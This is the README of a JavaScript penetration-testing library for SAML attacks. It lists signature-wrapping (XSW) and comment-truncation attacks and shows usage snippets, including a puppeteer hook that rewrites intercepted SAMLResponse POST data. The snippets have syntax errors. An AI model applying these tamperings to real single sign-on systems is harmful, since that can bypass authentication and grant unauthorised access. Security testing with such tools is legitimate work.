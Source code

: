 # saml-attacks

Common saml attacks for penetration testing.

## Supported Attacks

- [x] Modify
- [ ] Comment Truncation
- [ ] XSW 1
- [ ] XSW 2
- [ ] XSW 3
- [ ] XSW 4
- [ ] XSW 5
- [ ] XSW 6
- [ ] XSW 7
- [ ] XSW 8

## Usage

**modifyAttack**

```js
await ModifyAttack(xml, 'uid', 'modified')
```

With puppeteer proxy

```js
const { CommentTruncationAttack } = require("saml-attacks");

page.on("request", async (request) => {
  if( request.url().includes(target_url) {
    let post_data = request.postData();
    let saml_response = post_data.SAMLResponse;
    modified_saml_response = CommentTruncationAttack(saml_response, "assertion_field", "comment");
    post_data.SAMLResponse = modified_saml_response;
    
    await request.continue({
      method: "POST",
      postData: qs.stringify(post_data),
      headers: {
        ...request.headers(),
        "Content-Type": "application/x-www-form-urlencoded",
      }
    };
  } else {
    await request.continue();
  }
})
```
